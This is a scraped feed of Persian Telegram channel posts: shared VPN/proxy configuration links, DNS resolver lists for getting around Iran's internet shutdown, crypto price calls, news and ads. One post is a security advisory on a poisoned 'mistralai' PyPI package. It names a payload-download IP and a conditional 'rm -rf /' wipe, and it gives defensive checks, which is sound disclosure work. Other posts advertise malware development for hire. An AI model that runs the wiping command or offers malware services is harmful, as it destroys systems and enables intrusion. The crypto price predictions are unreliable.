🔗 vless://2d12063d-02e7-41e9-b619-5089fdc49d74@snapp.ir:80?encryption=none&host=api.sobhan.cam&path=%2F&security=none&type=ws#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A6170.52ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 6170.52ms

📢 @NamazVPN

## NamazVPN — post 35444

─────────── VLESS ───────────

🔗 vless://59bc19e5-9384-45ea-99c6-0fc412975eee@adler-1g.adelshoop.net:80/?type=ws&encryption=none&flow=&path=%2F#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A719.1ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 719.1ms

📢 @NamazVPN

## NamazVPN — post 35443

─────────── VLESS ───────────

🔗 vless://4b506123-3d41-4d5b-b5ae-00debe145d68@185.143.233.5:2083?encryption=none&fp=firefox&host=p1.sesrsa.com&path=%2F&security=tls&sni=sub.sesrsa.com&type=ws#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A3315.87ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 3315.87ms

📢 @NamazVPN

## NamazVPN — post 35442

─────────── VLESS ───────────

🔗 vless://6cebbdd5-5bc6-44f9-91da-93e4b010623d@varzesh3.com:80?type=ws&encryption=none&path=%2Fws&host=nobody.fasterspeed.ir&security=none#%F0%9F%87%A7%F0%9F%87%ACBulgaria%2C%20Sofia%20%7C%20%F0%9F%8C%90%20IP%3A%20216.147.121.120%20%7C%20%E2%8F%B3ping%3A7951.11ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍 🇧🇬 Bulgaria, Sofia
⏱️ 7951.11ms

📢 @NamazVPN

## NamazVPN — post 35441

─────────── VLESS ───────────

🔗 vless://95b9321e-1eff-4cb5-a74e-856a70724683@varzesh3.com:80?type=ws&encryption=none&path=%2Fws&host=nobody.fasterspeed.ir&security=none#%F0%9F%87%A7%F0%9F%87%ACBulgaria%2C%20Sofia%20%7C%20%F0%9F%8C%90%20IP%3A%20216.147.121.120%20%7C%20%E2%8F%B3ping%3A7726.87ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍 🇧🇬 Bulgaria, Sofia
⏱️ 7726.87ms

📢 @NamazVPN

## NamazVPN — post 35440

─────────── VLESS ───────────

🔗 vless://6cebbdd5-5bc6-44f9-91da-93e4b010623d@varzesh3.com:80?type=ws&encryption=none&path=%2Fws&host=nobody.fasterspeed.ir&security=none#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A3599.96ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 3599.96ms

📢 @NamazVPN

## NamazVPN — post 35439

─────────── VLESS ───────────

🔗 vless://6cebbdd5-5bc6-44f9-91da-93e4b010623d@varzesh3.com:80?type=ws&encryption=none&path=%2Fws&host=nobody.fasterspeed.ir&security=none#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A2661.22ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 2661.22ms

📢 @NamazVPN

## NamazVPN — post 35438

─────────── VLESS ───────────

🔗 vless://f8e744d6-1a73-402a-9f82-95fdf3b0f06f@185.143.233.5:2083?encryption=none&fp=firefox&host=p1.sesrsa.com&path=%2F&security=tls&sni=sub.sesrsa.com&type=ws#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A4315.54ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 4315.54ms

📢 @NamazVPN

## NamazVPN — post 35437

─────────── VLESS ───────────

🔗 vless://035a0c48-f874-48fc-9aa3-a9b33611c2fe@94.184.21.147:80?type=tcp&encryption=none&security=none#%F0%9F%87%A9%F0%9F%87%AAGermany%2C%20Nuremberg%20%7C%20%F0%9F%8C%90%20IP%3A%202a01%3A4f8%3A1c1b%3A2f0c%3A%3A1%20%7C%20%E2%8F%B3ping%3A714.49ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍 🇩🇪 Germany, Nuremberg
⏱️ 714.49ms

📢 @NamazVPN

## NamazVPN — post 35436

─────────── VLESS ───────────

🔗 vless://035a0c48-f874-48fc-9aa3-a9b33611c2fe@94.184.21.147:80?type=tcp&encryption=none&security=none#%F0%9F%87%A9%F0%9F%87%AAGermany%2C%20Nuremberg%20%7C%20%F0%9F%8C%90%20IP%3A%202a01%3A4f8%3A1c1b%3A2f0c%3A%3A1%20%7C%20%E2%8F%B3ping%3A845.56ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍 🇩🇪 Germany, Nuremberg
⏱️ 845.56ms

📢 @NamazVPN

## NamazVPN — post 35435

─────────── SS ───────────

🔗 ss://MjAyMi1ibGFrZTMtYWVzLTI1Ni1nY206WHNXeW13UmZRRGJtbmhWUkNsQXM4WnhWQWxidGdJNHB0NEROQ2FqQUZvOD06U2U0WUNKMmVEK3hqcDJDYjNNOU5VVXA2dHVzdTI0M24zTmVRZTIvdHdIOD0@37.32.40.49:3333?#%F0%9F%87%A9%F0%9F%87%AAGermany%2C%20Frankfurt%20am%20Main%20%7C%20%F0%9F%8C%90%20IP%3A%2045.145.42.98%20%7C%20%E2%8F%B3ping%3A3151.53ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍 🇩🇪 Germany, Frankfurt am Main
⏱️ 3151.53ms

📢 @NamazVPN

## NamazVPN — post 35434

─────────── VLESS ───────────

🔗 vless://0300ee6a-1365-41db-8b29-c745ea35677b@185.143.233.5:2083?encryption=none&fp=firefox&host=p1.sesrsa.com&path=%2F&security=tls&sni=sub.sesrsa.com&type=ws#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A9831.04ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 9831.04ms

📢 @NamazVPN

## TirexNet — post 3692

رو اطلاعات برنامه میزنید بعد usage اون دوتا گزینه پایین روشن کنید

## TirexNet — post 3691

  

رو اطلاعات برنامه میزنید
بعد usage
اون دوتا گزینه پایین روشن کنید

## TirexNet — post 3690

یه نکته هست که برای خود اپه. باید دیتای پس زمینه اسلیپ روشن باشه.اصلا اینجوری قطع نمیشه

## TirexNet — post 3689

یه نکته هست که برای خود اپه.
باید دیتای پس زمینه اسلیپ روشن باشه.اصلا اینجوری قطع نمیشه

## TirexNet — post 3688

دوستان اگه بلد کار هستید
اون کانفیگ که از کانال ما وصل هستید ی کپی بگیرید و اون رو ادیت بزنید
وdns رو از udp به tcp تغییر بدید
و این دو پک رو تست کنید با فرکانس های متفاوت و حالت پایدارشو داخل دایرکت ارسال کنید به همراه نوع اپراتور خودتون و مقادیر mtu وmax tunnel ارسال کنید .

217.219.163.81:53,217.219.163.85:53,37.32.21.21:53,217.219.163.66:53,185.113.56.125:53,217.219.163.155:53,78.111.11.12:53,95.38.245.146:53

91.92.131.199, 217.219.163.81, 217.219.163.157, 46.167.155.0, 217.219.163.155, 217.219.163.156, 217.219.163.110, 217.219.163.134

## TirexNet — post 3686

سلام عشقه داداش من از فایل های مختلف ریزالور اسکن کردم تو این فایل قرار دادم میتونی بزاری چنل بقیه هم استفاده کنن در حالت TCP

## TirexNet — post 3685

سلام عشقه داداش من از فایل های مختلف ریزالور اسکن کردم تو این فایل قرار دادم میتونی بزاری چنل بقیه هم استفاده کنن
در حالت TCP

## TirexNet — post 3684

  <a href="https://t.me/TirexNet/3684" target="_blank">📎 Download file</a>

📎 Document

## TirexNet — post 3683

2.188.21.190:53,2.188.21.120:53,2.188.21.200:53,2.188.21.240:53
مخابرات

## TirexNet — post 3682

85.185.1.10, 2.188.21.240, 2.188.21.90, 2.188.21.100, 2.188.21.190
Dns Resolver
تست شده با مودم مخابرات

## TirexNet — post 3681

سرور اول ( اسلیپ نت ) 🎃

همه اپراتور ها ( Vaydns+Ssh+Socks )

NULL

سرور دوم ( اسلیپ نت ) 🐍

ترجیحا همراه اول (Vaydns+Ssh )

NULL | CNAME | SRV | CAA | NS | NULL

ترجیحا همراه اول ( Vaydns+Socks )

NULL | NULL

آموزش کامل | تنظیمات جدید | تنظیمات جدید

Channel: T.me/TirexNet

## TirexNet — post 3680

با این تنظیمات وصلم با اپراتور همراه اول سرعتش خوبه only proxy روشن کردم VPN MUT رو گذاشتم 1500 و Compression رو روشن کردم و با کانفینگ Vay Dns + ssh با 5 دقیقه صبر وصل شدم

## TirexNet — post 3679

با این تنظیمات وصلم با اپراتور همراه اول سرعتش خوبه only proxy روشن کردم VPN MUT رو گذاشتم 1500 و Compression رو روشن کردم و با کانفینگ Vay Dns + ssh با 5 دقیقه صبر وصل شدم

## TirexNet — post 3678

سرور اول اختصاصی کانال ( Vaydns ) کپی کنید و وارد برنامه کنید رمز: @TirexNet slipnet-bundle-enc://AVZhyw61qPo2g27QtqflPqLvyPhfs+UWutzx8i7umOYinAFKrE9VIxwQO609PGYQW+MJJlTNU7QM1R4+BZYpADgG4Yim2g/rPIy/HEqUSwIqvZaBYnbt+uttN7USfoBVpmtZ9nLvx+N4tJKe/pG8he/nP…

## TirexNet — post 3676

2.188.21.90, 2.188.21.200, 2.188.21.120, 2.188.21.100, 10.185.68.114, 10.185.68.113, 2.188.21.190
Dns Resolver
Storm dns|MasterDNS|slipnet

## TirexNet — post 3675

این تنظیمات رو اعمال کنید خیلی خوب وصل میشن 👇 مداد رو بزنید فسمت Advanced همینطور ک میگم ب ترتیب بچینید دومی 1 (keepalive) سومی 8000(udp time out ) پنجمی 2(clinet id size) خیلی بهتر میشه و کسایی ک نمیتونن وصل شن هم وصل میشن باید خودم رو کانفیگ اعمال میکردم…

## TirexNet — post 3674

  

📷 Photo

## TirexNet — post 3673

دوستان بعضی وقتا بهترین تنظیمات رو دارید
بهترین دی ان اس ریزالور و کانفیگ رو دارید
اما خوب کانکت نمیشید

ی دلیلش QUERY LENGTH
این مثل MTU و MAX TUNNEL موثر هست
اگه دیدید اتصال خوبی ندارید
اول از کانفیگ بکاپ بگیرید
بعد اون کانفیگ رو ادیت بزنید و قسمت query length با کوئری سایز های مختلف تست کنید
سایز هایی که من پیشنهاد میدم و ازشون جواب گرفتم :
76
101
131
145
235
253

@TirexNet

## TirexNet — post 3672

  

📷 Photo

## TirexNet — post 3671

این تنظیمات رو اعمال کنید خیلی خوب وصل میشن 👇 مداد رو بزنید فسمت Advanced همینطور ک میگم ب ترتیب بچینید دومی 1 (keepalive) سومی 8000(udp time out ) پنجمی 2(clinet id size) خیلی بهتر میشه و کسایی ک نمیتونن وصل شن هم وصل میشن باید خودم رو کانفیگ اعمال میکردم…

## icoandidoupdate — post 2233

  <a href="telegram/content/icoandidoupdate_2233_1778607703.webm" target="_blank">🎬 Download video</a>

🧪پروژه LAB رسید به 4$ نوش جونتون ما از 0.20 چندین بار گفتیم بخرید نزدیک به 15 برابر شده💯

## icoandidoupdate — post 2231

  <a href="telegram/content/icoandidoupdate_2231_1778607703.webm" target="_blank">🎬 Download video</a>

📈یه مدیر صرافی که نمیتونم اسمش بگم (یکی از بزرگترینا) گفت 13 may پروژه solana میشه 130 دلار و الت سیزن شروع میشه 
💰

## icoandidoupdate — post 2230

💵این BTC میتونه تا قیمت 77K اصلاح بخوره بعدش میره برای تارگت 85K 😍

## icoandidoupdate — post 2229

  

🪙باز رسیدیم به TON من یک مقدار خریدم روی قیمت 2.3 دلار

## icoandidoupdate — post 2228

  <a href="telegram/content/icoandidoupdate_2228_1778607704.webm" target="_blank">🎬 Download video</a>

🤴ارز sui بسیار پتاسیل هست قیمت 0.92$ بهترین برای ورود هست به نظرم کمتر از یک ماه دیگه میشه 2$
💰

## icoandidoupdate — post 2227

  <a href="telegram/content/icoandidoupdate_2227_1778607705.webm" target="_blank">🎬 Download video</a>

🤴ارز sui بسیار پتاسیل هست قیمت 0.92$ بهترین برای ورود هست به نظرم کمتر از یک ماه دیگه میشه 2$
💰

## icoandidoupdate — post 2226

🔹فوری رویترز:

مجتبی خامنه‌ای به نیروهای مسلح ایران دستور ازسرگیری عملیات های نظامی را داد.

🔹شبکه خبر:
مجتبی خامنه‌ای به فرمانده قرارگاه خاتم الانبیا تدابیر جدید اعلام کرد!

## icoandidoupdate — post 2225

  

💵اینSolana رو در همین قیمت عالیه به زودی بالای 150 دلار میره و الت سیزن شروع میشه👍

## icoandidoupdate — post 2224

  

💵این پروژه AAVE هم بزارید بزار یکم اصلاح بده روی قیمت 90$ میتونید وارد شید دقت کنید بازار یکم اصلاح داره

## icoandidoupdate — post 2223

  

💵پروژه CRV عالی برای خرید فقط دقت کنید بیت کوین یکم ریزش داره رسید به قیمت 0.20 تا 0.22 عالیه بخرید یکم بازر سبز بشه میتونه تا قیمت 0.40$ بره (تازه تارکت اوله).

## icoandidoupdate — post 2222

  <a href="telegram/content/icoandidoupdate_2222_1778607706.webm" target="_blank">🎬 Download video</a>

💰مقداری OP خرید کردم میتونه تا 0.010 سنت هم برسه اونجام بخرید. تارگت بعدیش برای فروش بالای 0.20$ هست.

## icoandidoupdate — post 2221

  <a href="telegram/content/icoandidoupdate_2221_1778607706.webm" target="_blank">🎬 Download video</a>

🤴 قرعه کشی امشب 5 گیگ هست کسی که بیشترین استارز تا ساعت 12.06 دقیقه بزنه! 
🤴چالش دوم چالش 5 گیگ کانفیگ کیفیت خوب😍 اولین نفری که تو کامنتا اسلات🎰 ۷ رو ست کنه (۷۷۷) برنده یه گیگ کانفیگ اختصاصی میشه. هر نفر هم کلا یه شانس داره اگه بیشتر از یک بار بفرسته بن میشید…

## icoandidoupdate — post 2220

  <a href="telegram/content/icoandidoupdate_2220_1778607707.webm" target="_blank">🎬 Download video</a>

🤴 قرعه کشی امشب 5 گیگ هست کسی که بیشترین استارز تا ساعت 12.06 دقیقه بزنه!

🤴چالش دوم چالش 5 گیگ کانفیگ کیفیت خوب😍
اولین نفری که تو کامنتا اسلات🎰 ۷ رو ست کنه (۷۷۷) برنده یه گیگ کانفیگ اختصاصی میشه.
هر نفر هم کلا یه شانس داره اگه بیشتر از یک بار بفرسته بن میشید فقط یک بار بفرستید.

## icoandidoupdate — post 2219

💵این BTC میتونه تا قیمت 77K اصلاح بخوره بعدش میره برای تارگت 85K 😍

## icoandidoupdate — post 2218

  <a href="telegram/content/icoandidoupdate_2218_1778607707.webm" target="_blank">🎬 Download video</a>

💰مقداری OP خرید کردم میتونه تا 0.010 سنت هم برسه اونجام بخرید. تارگت بعدیش برای فروش بالای 0.20$ هست.

## icoandidoupdate — post 2216

  <a href="telegram/content/icoandidoupdate_2216_1778607707.webm" target="_blank">🎬 Download video</a>

😪دوستان اقای نوید شکریان نه بهتون فیلتر شکن میفروشه نه برای سیگنال پول میگیره نه کارش گیر میکنه که از شما درخواست پول کنه. بعضی از اشخاص اکانت فیک با عکس اقای شکریان میزنند و سو استفاده میکنند.

✅ایدی اصلی اقای شکریان
@navidshokriyan

## icoandidoupdate — post 2215

🔴 بیانیه سنتکام؛ آمریکا تأسیسات نظامی ایران، از جمله سایت‌های پرتاب موشک و پهپاد؛ مکان‌های فرماندهی و کنترل؛ و مراکز اطلاعاتی، نظارتی و شناسایی را هدف قرار داد.

## icoandidoupdate — post 2213

  <a href="telegram/content/icoandidoupdate_2213_1778607708.webm" target="_blank">🎬 Download video</a>

‌

🔴فوری/ بررسی‌های فارس در بندرعباس نشان می‌دهد در جریان تبادل آتش میان نیروهای مسلح ایران و دشمن بخش‌هایی تجاری اسکله بهمن هدف قرار گرفته است.

📝اخبار تکمیلی متعاقباً اعلام می‌شود

## icoandidoupdate — post 2212

  <a href="telegram/content/icoandidoupdate_2212_1778607708.webm" target="_blank">🎬 Download video</a>

🤴ساعت 12 امشب به 5 نفر هر کدوم یک گیگ رایگان کانفیگ میدیم😍

## icoandidoupdate — post 2211

  

🧪پروژه LAB شد 3 دلار تو چهار ساعت 50 درصد سود داد

## configraygan — post 1

Channel created

## papFransiz — post 466

یه حمله‌ی سنگین supply chain امروز بین دولوپرهای AI پخش شد و برای ایران ریسک بیشتری داره.

پکیج رسمی "mistralai" نسخه‌ی 2.4.6 آلوده شده.
نکته اینجاست که این نسخه اصلاً توسط منبع اصلی منتشر نشده و آخرین نسخه‌ی واقعی 2.4.5 بوده.

ماجرا از کمپینی به اسم Mini Shai-Hulud میاد که بیش از ۱۷۰ پکیج npm و چند پکیج PyPI رو آلوده کرده.
یعنی به‌جای هک مستقیم، ابزاری که بهش اعتماد دارید رو دستکاری می‌کنن.

مشکل اصلی اینه که فقط با: "import mistralai" کد مخرب اجرا میشه.

بعدش فایل "transformers.pyz" رو از آی‌پی "83.142.209.194" دانلود می‌کنه و به‌صورت مخفی اجراش می‌کنه.
این فایل دنبال API Key، توکن کلاد، SSH Key، پسورد و credentialها می‌گرده و ارسالشون می‌کنه.

ولی بخش خطرناک‌:
اگر سیستم ایران یا اسرائیل تشخیص داده بشه، با احتمال ۱ از ۶ دستور: "rm -rf /" اجرا میشه. یعنی کل سیستم لینوکسی کامل پاک میشه. سرور، VPS، لپ‌تاپ، CI/CD Pipeline، هرچی.

چک کنید آلوده شدید یا نه:

pip show mistralai | grep Version

اگر نسخه "2.4.6" بود، سیستم رو آلوده فرض کنید.

بعد اینارو چک کنید:

ls /tmp/transformers.pyz

find / -name pgmonitor.py 2>/dev/null

systemctl status pgsql-monitor.service

اگر پیدا شدن یعنی payload اجرا شده.

کارهایی که باید انجام بدید:
- بلاک کردن آی‌پی "83.142.209.194"
- دانگرید به "mistralai==2.4.5"
- تعویض تمام credentialها
- ایزوله کردن سیستم آلوده
- بررسی لاگ‌های CI/CD و سرورها

منابع:
Mistral AI GitHub Issue: github.com/mistralai/client-python/issues/523
eDep Report: safedep.io

@papFransiz

## papFransiz — post 465

مطالب منتقل شدند به گروه. با تشکر

## papFransiz — post 464

جهت توسعه و طراحی نرم‌افزاری و زیر‌ساختی و نیاز پشتیبانی داشتید پیام بدید. - DevOps/Ai-Ops/NetOps - Android/ios - BackEnd Laravel:django - BotTel devlop - malware devlop جهت ارتباط: - Mail: amirrezahadayati@gmail.com - PV: @Pap_pv

## papFransiz — post 460

لیست موجودی روتر

Linksys mx4200 v1. ===>13
Linksys mx4200 v2. ===>17
Linksys whw03v2 stock. ===>5.8
Linksys whw03v2 open box. ===>8.5
Zte mf269. ===>10
Google wifi. ===>8
لیست موجودی مودم
Zlt x28 ooredoo ( vpro) open box. ===>19
Zlt x28 du ===>13
Green packet. ===>13
Arrura C082 ===>12
linksys fgw3000 5g. ===>15
Cpe5 pro. ===>19.8
Huawei E5180 new. ===>5.8

- تحویل حضوری - سراسر کشور
- هدایتی: @Pap_pv

## papFransiz — post 445

مطالب منتقل شدند به گروه. با تشکر

## papFransiz — post 432

توی بدترین شرایط اقتصادی و روانی به سر میبرم. ولی بعنوان یک کادردرمان، از اینترنت پرو(طبقاتی) تهیه یا استفاده نخواهم کرد.

#اینترنت_یا_برای_همه_هست_یا_هیچکس_به_امید_روزهای_بهتر

## papFransiz — post 13

جهت توسعه و طراحی نرم‌افزاری و زیر‌ساختی و نیاز پشتیبانی داشتید پیام بدید.

- DevOps/Ai-Ops/NetOps
- Android/ios
- BackEnd Laravel:django
- BotTel devlop
- malware devlop

جهت ارتباط:
- Mail: amirrezahadayati@gmail.com
- PV: @Pap_pv

## papFransiz — post 5

Amir.Hadayati:
ما هیچ ندیدیم و همه شهر بِگُفتند - افسانهِ خوشبختی وجود داشته.

#𝑃𝐴𝑃‌𝐹𝑅𝐴𝑁𝑆ı𝑍

## asrnovin_ir — post 10324

▫️ طراحی و اجرای پروژه‌های دیجیتال با کیفیت بالا

▫️ طراحی ربات تلگرام :

▫️ زبان‌های Python و PHP

▫️ اجرای دقیق، سریع و سفارشی‌سازی‌شده

▫️ طراحی سایت و مینی‌سایت :

▫️ فروشگاهی

▫️ آموزشی

▫️ شخصی و رزومه‌ای

▫️ ریسپانسیو و سئو محور

▫️ مزایای همکاری با ما :

▫️ چندین سال سابقه‌ی حرفه‌ای

▫️ دارای نمونه‌کارهای قوی و واقعی

▫️ تسلط کامل به اصول فنی و طراحی

▫️ متعهد، خوش‌قول و نتیجه‌گرا

▫️ مشاوره رایگان پیش از ثبت سفارش

▫️ راه‌های ارتباطی جهت مشاوره یا ثبت سفارش :

▫️ : @Devbc

▫️ : @ZitacTm

## asrnovin_ir — post 10323

🔴 اژه‌ای:

داستان اینترنت پرو و سیمکارت سفید باعث خشم مردم شده و باید با موارد خلاف قانون در این موضوع برخورد بشه.

## asrnovin_ir — post 10322

🔴وزیر ارتباطات: در تلاش برای برقراری اینترنت بین‌الملل در اسرع وقت هستیم!

## asrnovin_ir — post 10321

🔴وزیر ارتباطات: در تلاش برای برقراری اینترنت بین‌الملل در اسرع وقت هستیم!

## asrnovin_ir — post 10320

چند خبر کوتاه از دنیای تکنولوژی:

۱. اپل و اینتل برای تولید تراشه همکاری می‌کنند
اپل وابستگی خود به TSMC را کاهش داده و با اینتل وارد همکاری ساخت تراشه می‌شود.
۲. پارلمان اروپا VPNها را "راه‌گریز" خواند
اروپا VPN را ابزاری برای دور زدن تأیید سن می‌داند و ممکن است محدودیت‌هایی اعمال کند.
۳. توقف تولید تسلا مدل S و X؛ ربات‌های اپتیموس در راهند
تسلا تولید خودروهای لوکس قدیمی را متوقف و خطوط تولید را به ساخت ربات‌های انسان‌نما اختصاص می‌دهد
.
۴. شکایت ۱۵ میلیون دلاری دوآ لیپا از سامسونگ
خواننده دوآ لیپا به دلیل استفاده غیرمجاز سامسونگ از تصویرش در تبلیغات تلویزیونی، شکایت کرده است.

## asrnovin_ir — post 10317

🎥 معاون رئیس‌جمهور: نظر دولت بازگشت اینترنت به وضعیت عادی است

افشین، معاون علمی رئیس‌جمهور:
🔹️وضعیت اینترنت در دولت در حال پیگیری است. نظر دولت بازگشت اینترنت به وضعیت عادی است. قطعی اینترنت قطعاً به رتبه علمی ما ضربه می‌زند. در زمان قطعی اینترنت رتبه علمی ما قطعاً پایین می‌آید.
🔹️وقتی اساتید و دانشجویان قدرت جستجوی بین‌المللی ندارند، تحقیقاتمان دچار رکود می‌شود. در دولت یک کارگروه زیر نظر معاونت اول رئیس جمهور در حال شکل‌گیری است. احتمالاً در این کارگروه تصمیمات قاطع خواهیم گرفت.
@asrnovin_ir

## asrnovin_ir — post 10316

📈
💰 تتر به بالای ۱۸۲ هزار تومن رسید

به‌نظر می‌رسه این افزایش، به گمانه‌زنی‌ها درباره بالا گرفتن دوباره تنش‌ها از سرگیری احتمالی جنگ برمی‌گرده؛ فضایی که معمولاً خیلی سریع خودش رو توی بازار ارز نشون می‌ده.

## asrnovin_ir — post 10315

خبر داغ : گوگل بی‌سروصدا ابزاری منتشر کرده که تخصصش رمزگشایی از پروژه‌های متن‌باز پیچیدس.

سایت CodeWiki؛ کافیه لینک یه مخزن یا ریپوی گیت‌هاب رو بهش بدید تا هوش مصنوعی کل کدهارو به یه مستندات تعاملی و قابل‌فهم تبدیل کنه.

این ابزار فقط کدها را خلاصه نمی‌کنه، نمودار وابستگی هارو خودکار رسم میکنه، مرحله به مرحله توضیح میده هر ماژول از کد چه کاری انجام میده و همچنین یه آموزش برای مبتدی ها از روی ریپو میسازه و چت‌بات داخلی هم داره.

لینکش :
codewiki.google

@asrnovin_ir

## asrnovin_ir — post 10314

❌ دستگیری «پدر موبایل ایران» با پرونده ۸۰۰ میلیارد تومانی کلاهبرداری

🔸 روزنامه اطلاعات گزارش داده مردی ۵۰ساله معروف به «پدر موبایل ایران» توانسته با فریب بیش از ۷۵۰ نفر با وعده سرمایه‌گذاری با سود ۴۵ درصدی در قبال دریافت موبایل زیر قیمت، توانسته ۸۰۰ میلیارد تومان کلاهبرداری کند که حدود ۲.۵ برابر کلاهبرداری ۳۲۸ میلیارد تومانی کورش کمپانی است.

🔸 رئیس پلیس آگاهی هرمزگان درباره این پرونده گفته است: «مأموران پلیس آگاهی در یک عملیات غافلگیرانه توانستند این مرد ۵۰ساله که با هویت جعلی و نام اختصاری (ع.ع) بیش از ۷۵۰نفر را در استان اصفهان فریب بدهد، دستگیر کنند.»

🔸 بر اساس گفته‌های سرهنگ «علی لشکری»، متهم خود از راه معرفی خود به‌عنوان مدیرعامل شرکت و عضو هیئت مدیره یک هلدینگ واردکننده رسمی موبایل، اعتماد افراد را جلب می‌کرده است.

منبع/دیجیاتو
@asrnovin_ir

## asrnovin_ir — post 10313

صدا و سیما از آپارات شکایت کرده و آپارات حالا مجبوره طبق دستوری که صادر شده ۳.۶ همت جریمه پرداخت کنه به صداوسیما

آپارات هم ناراحت شده و گفته اینکار باعث ضربه به پلتفرم های داخلی هست و بیشتر باعث میشه مردم به سمت پلتفرم های خارجی برن 😁

## asrnovin_ir — post 10310

یکی از کاربران برای تست اینترنت پرو گرفته و در موردش گفته :

😄تلگرام و واتساپ بدون فیلتر به راحتی باز میشه

👎 گوگل پلی و اپ استور باز میشه ولی نمیتونی چیزی دانلود کنی

😄 برا تریدرا تقریبا خوبه چون دسترسی به صرافی ها بازه

👎 خدمات گوشی مثل آپدیت گوشی دریافت میشه ولی نمیتونی دانلود کنی و گوشیو آپدیت کنید.

😎 در کل شما بازم مجبوری vpn بخری تا وصل بشی چون رایگانا هم همچنان وصل نمیشن

## asrnovin_ir — post 10307

- اینترنت 5Gدر افغانستان راه اندازه شد.
- اولین تراکنش ویزا و مسترکارت در سوریه انجام شد.

و ما هنوز اینترنت نداریم

## asrnovin_ir — post 10306

یه ترفند باحال برای سین کردن و خوندن پیام‌های یک نفر بدون اینکه طرف متوجه بشه شما پیامش رو خوندید 👀✨

خب قضیه چیه؟ 🤔
زمانی که یه نفر به شما داخل تلگرام یا حتی ایتا و روبیکا پیام می‌فرسته، وقتی شما پیوی طرف رو باز می‌کنید و پیامش رو می‌خونید، اون پیام دوتا تیک می‌خوره ✅✅ و اینجوری طرف متوجه میشه که شما پیامش رو خوندید.

حالا چیکار کنیم پیام رو بخونیم ولی دوتا تیک نخوره؟ 🤫🚫
کافیه بدون اینکه پیوی طرف رو باز کنید، دستتون رو چند ثانیه روی عکس پروفایلش نگه دارید تا یک صفحه جدید پاپ‌آپ برای شما باز بشه 📱✨. از طریق اون صفحه پیام رو بخونید و اینجوری دیگه پیام دوتا تیک نمی‌خوره 😜

⚠️ حواستون باشه: وقتی پیام رو خوندید و خواستید خارج بشید، روی اون صفحه که باز شده نزنید، وگرنه وارد چت میشید! 🚫📩

## asrnovin_ir — post 10305

  <a href="telegram/content/asrnovin_ir_10305_1778607709.mp4" target="_blank">🎬 Download video</a>

🔴صداسیما اومده دوتا پسر که فیلترشکن میفروختن گرفته باهاشون مصاحبه کرده:
27سالمه یساله مشغول فروختن فیلترشکنم روزانه 30 میلیون درامد دارم
تو این بازه زمانی قطعی نت حدودا هشت میلیارد زدم به جیب
از اب گل الود ماهی گرفتم و فیلترارو با قیمت بالا میکردم تو پاچه ملت
ولی من واقعا نمیدونستم جرمه چون پرداختیامون از درگاه بانکی داخل بود گفتم شاید قانونیه
احساس  پشیمونی دارم به دوستانم میگم بخاطر دو دقیقه وصل شدن به اینستا وی پی ان نفروشین

## asrnovin_ir — post 10304

متا از امروز به صورت رسمی رمزگذاری (E2EE) را برای پیام‌های مستقیم (دایرکت) اینستاگرام خاموش کرد

در نتیجه، مکالمات دیگر به طور کامل رمزگذاری نخواهند شد و متا به محتوای پیام‌های جدید و قبلی دسترسی خواهد داشت.

## asrnovin_ir — post 10303

  

امشب این پیام برای منم از طرف همراه اول اومد
جالب اینجاست من با این شماره تلفن در هیچ برنامه و... تا به حال ثبت نام نکردم و فقط برای تماس ازش استفاده میکردم

سوال اینجاست که چرا باید این پیام برای یه فرد عادی مثل من ارسال بشه

## asrnovin_ir — post 10302

💯دوستان برای کمتر کردن مصرف اینترنت در تلگرام و اینستاگرام بخصوص در این شرایط اینکارو انجام بدید.
(البته اگر میزان مصرف وی پی ان واستون مهم هست)

💢  تلگرام  " حذف دانلود خودکار "

Settings → Data and Storage→ Automatic Media Download
Picture → عکس حجم خاصی نمیبره روشن بزارید
Video→ خاموش
Files→ خاموش
Stories→ خاموش

💢  اینستاگرام " پایین اوردن کیفیت عکس و فیلم و.. "

1- Data Saver روشن
Settings → Media Quality / Data Usage→ Data Saver
این گزینه پیش‌بارگذاری ویدیوها رو روی دیتای موبایل محدود می‌کنه و کیفیت  رو پایین میاره

✅گزینه های دیگه هم هست ولی اونها  تاثیر خاصی ندارند اصل ماجرا همین کم کردن کیفیت عکس و ویدئو هست. برای اینستاگرام حدود 50 درصد مصرف رو کمتر میکنه اصلا عدد کمی نیست.

## asrnovin_ir — post 10301

  <a href="telegram/content/asrnovin_ir_10301_1778607711.webm" target="_blank">🎬 Download video</a>

📱
🇮🇶 «تلگرام» در عراق رفع فیلتر شد

🟢سازمان رسانه و ارتباطات عراق از لغو ممنوعیت فعالیت اپلیکیشن تلگرام در سراسر این کشور خبر داد.

## asrnovin_ir — post 10300

😐 تلگرام رسماً وارد دنیای قمار شد؟!

"تلگرام با قابلیت جدید «Emoji Stake» امکان شرط‌بندی با ایموجی تاس رو اضافه کرده"

💡 ماجرا چیه؟
» شرط‌بندی مستقیم داخل چت تلگرام
» شارژ کیف پول با ارز TON
» سودهای وسوسه‌کننده تا ۷۰۰٪

⛔   برای استفاده باید اکانت Level 5 داشته باشی و کیف پولت رو شارژ کنی
#تلگرام #TON #قمار_آنلاین

## asrnovin_ir — post 10299

